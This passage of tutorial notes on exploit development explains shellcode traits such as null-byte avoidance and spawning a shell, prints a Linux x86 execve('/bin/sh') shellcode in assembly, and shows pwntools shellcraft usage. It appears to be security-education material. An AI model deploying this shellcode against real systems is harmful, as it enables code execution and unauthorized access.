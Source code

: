 3. **Avoids Null Bytes (`\x00`)**:
    
    - Many vulnerable functions (like `strcpy`) stop reading at null bytes.
    - Shellcode must be crafted to avoid them.
        
4. **Executes Arbitrary Commands**:
    
    - Common goal: Spawn a shell (`execve("/bin/sh", NULL, NULL)`).
    - Can also perform other actions like opening files, reverse shells, etc.

### **Example: Linux x86 Shellcode for `/bin/sh`**

```txt
section .text
global _start

_start:
    ; execve("/bin/sh", NULL, NULL)
    xor eax, eax      ; Clear eax
    push eax          ; Push NULL terminator
    push 0x68732f2f   ; Push "//sh" (little-endian)
    push 0x6e69622f   ; Push "/bin"
    mov ebx, esp      ; ebx = ptr to "/bin//sh"
    mov ecx, eax      ; ecx = NULL (argv)
    mov edx, eax      ; edx = NULL (envp)
    mov al, 0x0b      ; syscall number for execve
    int 0x80          ; Trigger syscall
```

If **NX (No-Execute)** is enabled, shellcode won’t work, so ROP is used instead.

Pwntools simplifies shellcode generation by:

- Providing pre-built shellcode snippets (e.g., `shellcraft.sh()` for `/bin/sh`).
- Automating assembly/disassembly (`asm()` and `disasm()`).    
- Handling architecture-specific details (x86, x64, ARM, etc.).

**Verify Installation**

```python
from pwn import *
print(pwnlib.__version__)
```

In `pwntools`, always start by setting the architecture:

```python
from pwn import *

context.arch = 'amd64'  # or 'i386', 'arm', etc.
context.os = 'linux'
```

`pwntools` has a powerful module called `shellcraft` that generates high-quality assembly for many common tasks:

```python
#shellcode = shellcraft.binary(args)
shellcode = shellcraft.sh()
print(shellcode)
```
